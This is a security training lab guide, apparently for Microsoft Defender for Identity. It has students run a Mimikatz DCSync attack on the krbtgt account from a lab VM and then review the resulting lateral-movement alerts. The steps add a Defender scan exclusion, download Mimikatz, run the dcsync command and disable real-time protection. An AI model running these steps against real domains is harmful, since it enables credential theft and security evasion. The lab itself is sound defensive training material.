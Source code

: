 # Lab 13: Simulate and Detect Lateral Movement Attacks

## Overview

In this lab, you will simulate a Lateral Movement attack using the Mimikatz tool and detect it through Microsoft Defender for Identity. This task should only be performed in a controlled environment, running the attack will trigger Defender’s containment measures, logging you out of the virtual machine and preventing re-login for security reasons.

> **⚠ Important Usage Guidance:** Microsoft Defender for Office 365 may take some time to load certain results or complete specific labs from the backend. This is expected behavior. If the data does not appear after a couple of refresh attempts, proceed with the next lab and return later to check the results..

1. In Azure portal, Search for **Virtual machines (1)** and select **Virtual machines (2)**.

      ![VMrdp](./media/vm.png)

1. Select the virtual machine **s2vm-<inject key="DeploymentID" enableCopy="false" />** from the list.
   
      ![VMrdp](./media/xdr26.png)

1. At the beginning of the virtual machine page, click on **Connect (1)**, and from the drop-down select **Connect (2)**.

      ![VMrdp](./media/xdr27.png)

1. On the Connect to Virtual Machine page, select RDP, Choose the option to **Download RDP File.**

      ![VMrdp](./media/xdr28upd.png)

      >**Note:** You might see the warning option while downloading the rdp file. please click on **keep.**

1. Open the downloaded RDP file from the downloads.

      ![VMrdp](./media/xdr23.png)

1. Select Connect when prompted. You will get a warning that the .rdp file is from an unknown publisher. This is expected. In the Remote Desktop Connection window, select Connect to continue.

      ![VMrdp](./media/vm8.png)
   
1. In the Windows Security window, select **More Choices.**

      ![VMrdp](./media/xdr24.png)

 1. Then Use a different account. Enter **Username:** <inject key="Labvm Admin Username"></inject> **(1)** and **Password:** <inject key="Labvm Admin Password"></inject> **(2)** and then select **OK (3).**

      ![VMrdp](./media/vm6.png)

1. Select **Yes** to verify the identity of the virtual machine and finish logging on.

      ![VMrdp](./media/vm7.png)

1. You should now be connected to the virtual machine via Remote Desktop.

1. Open **PowerShell (Administrator)** from Windows search.

      ![image](./media/attack1.png)

1. Run the following command to create a folder named `Tools` and add it as an exclusion in Microsoft Defender so that files inside this folder are not scanned.

      ```shell
      New-Item -ItemType Directory -Force -Path "C:\Tools"
      ```

      ```
      Add-MpPreference -ExclusionPath "C:\Tools
      ```

1. Run the below command to download the Mimikatz tool in `C:\Tools` folder.

      ```
      cd C:\Tools
      ```

      ```
      git clone https://github.com/ParrotSec/mimikatz
      ```
    > **Note:** Mimikatz is an open-source tool primarily designed to extract authentication credentials from the memory of Windows operating systems

      ![image](./media/attack13.png)

1. Navigate to the below mentioned directory in Powershell.

      ```powershell
      cd mimikatz\x64
      ```

1. In the same PowerShell session, run the below command to run the mimikatz application

     ```powershell
     mimikatz.exe 
     ```

1. Simulate a DC Sync attack and extract the credentials of the krbtgt account.

      ```shell
      lsadump::dcsync /domain:defenderxdr.internal /user:krbtgt
      ```

      > **Note:** If you see an error message indicating that the command failed, it is due to antivirus, perform the below steps and then run **step 16** again

      > 1. Navigate to Windows Security and click on **Virus & threat protection**.
      ![image](./media/attack1n1.png)

      > 2. Turn off **Real-time protection (1)** and **Cloud-delivered protection (2)**
      ![image](./media/attack1n2.png)

1. Once this command executes, Microsoft Defender’s attack disruption feature will log the user out of the Virtual Machine and prevent them from logging back in. It may take about 10-15 minutes to log out, please wait

1. Now, go back to **svm-<inject key="DeploymentID" enableCopy="false"/>** virtual machine and check your alerts in the Microsoft Defender portal, navigate to **Incidents & alerts** in the left-hand navigation pane.

      ![](./media/E1T3S3upd1.png)

1. Navigate to **Incidents** and review the incident with the tag **Lateral Movement**.

   ![](./media/E1T3S3upd2.png)

1. Click **Alerts** to view the alerts queue.

1. You will find alerts with the below names
     - **Lateral movement using remote logon by contained user blocked**
     - **Lateral movement using RDP blocked**

       ![](./media/E1T3S3upd.png)

      > **Note:** The user will be logged out of the virtual machine as part of the containment measures initiated by the Defender in response to the user's attempted lateral movement attack.

## Review

In this lab, you have completed the following:

- Used the **Mimikatz tool** in PowerShell (Admin) to simulate a **DC Sync attack**.  
- Attempted to extract credentials of the **krbtgt account**.  
- Observed **automatic containment measures** triggered by Microsoft Defender for Identity.  
- Verified generated alerts in the Defender portal for **blocked lateral movement attempts** via remote logon and RDP. 

## You have successfully completed the lab. Click on Next to Continue

  ![Start Your Azure Journey](./media/rd_gs_1_9.png)
